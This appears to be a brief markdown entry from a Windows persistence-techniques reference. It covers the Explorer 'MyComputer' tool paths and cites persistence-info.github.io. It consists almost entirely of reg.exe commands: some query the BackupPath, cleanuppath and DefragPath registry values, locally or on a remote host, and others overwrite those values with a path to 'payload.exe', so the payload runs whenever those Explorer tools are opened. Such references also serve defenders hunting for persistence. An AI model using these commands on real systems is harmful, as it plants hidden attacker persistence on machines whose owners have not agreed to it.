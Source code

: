 # Explorer tools 

```
C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /v BackupPath

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /v cleanuppath

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /v DefragPath
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /t REG_SZ /v BackupPath /d "C:\path\to\payload.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /t REG_SZ /v cleanuppath /d "C:\path\to\payload.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /t REG_SZ /v DefragPath /d "C:\path\to\payload.exe" /f
```

---
## References

- [Persistence Info: Explorer tools](https://persistence-info.github.io/Data/explorertools.html)